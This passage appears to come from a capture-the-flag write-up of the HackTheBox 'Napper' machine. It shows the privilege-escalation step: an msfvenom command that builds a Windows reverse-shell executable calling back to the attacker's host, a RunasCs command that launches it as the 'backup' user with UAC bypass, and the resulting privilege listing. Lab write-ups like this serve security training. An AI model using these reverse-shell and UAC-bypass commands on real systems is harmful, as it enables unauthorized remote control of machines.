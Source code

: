 ![Note that password changes every 5 minutes!](../../.gitbook/assets/htb-napper-image-15.png)

Afterwards, I can easily use this to get a shell as the `backup` user via another `msfvenom` shell.

```
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.33 LPORT=443 -f exe > rev.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
```

```
PS C:\Windows\Tasks> .\RunasCs.exe backup MIyyiyRRzoVlWgAAAkhalIjDWQtjhQJokfREfuyC C:\Windows\Tasks\rev.exe --bypass-uac --logon-type '8'
```

![](../../.gitbook/assets/htb-napper-image-16.png)

As `backup`, I was given full privileges to the machine:

```
C:\Windows\system32>whoami /priv
whoami /priv                                                                                 
                                                                                             
PRIVILEGES INFORMATION                                                                       
----------------------                                                                       
                                                                                             
Privilege Name                            Description                                                        State                                                                        
========================================= ================================================================== =======                                                                      
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
```